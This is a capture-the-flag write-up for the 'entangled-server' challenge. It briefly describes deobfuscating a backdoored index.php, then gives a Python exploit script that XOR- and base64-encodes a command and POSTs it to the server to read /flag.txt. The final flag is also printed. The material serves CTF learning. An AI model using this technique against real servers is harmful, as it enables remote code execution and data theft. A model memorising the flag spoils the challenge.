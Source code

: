 ## Challenge

entangled-server

A NICC agent found an old abandoned server with some very suspicious files on it. We have found the file it was hosting on a webserver but it seems like it was very heavily obfuscated. Can you figure out how to get in?

The flag is located at /flag.txt on the server.

http://entangled-server.niccgetsspooky.xyz:1337

## Solution

When we downloaded the index.php file we noticed it was onfuscated.

Tried to simplify it.

First, we decoded the array and made character list.

Second step was to replace these decoded characters in the script.

We fixed the code a little more to understand it better and then we made a script which gave the flag.

```python
import requests
import base64
import json

def xor_encrypt(data, key):
    result = []
    for i in range(len(data)):
        result.append(chr(ord(data[i]) ^ ord(key[i % len(key)])))
    return ''.join(result)

url = "http://entangled-server.niccgetsspooky.xyz:1337"
key = "5p1n-th3-51lly-5tr1ng5"

payload = {
    "ak": key,
    "a": "e",
    "d": "echo file_get_contents('/flag.txt');"
}

json_payload = json.dumps(payload)
encrypted_payload = xor_encrypt(xor_encrypt(json_payload, key), "ak")

encoded_payload = base64.b64encode(encrypted_payload.encode()).decode()

response = requests.post(url, data={"ak": encoded_payload})

print(response.text)
```


Flag: `NICC{TH3_5P1D3R5_G0T_1N_00P5}`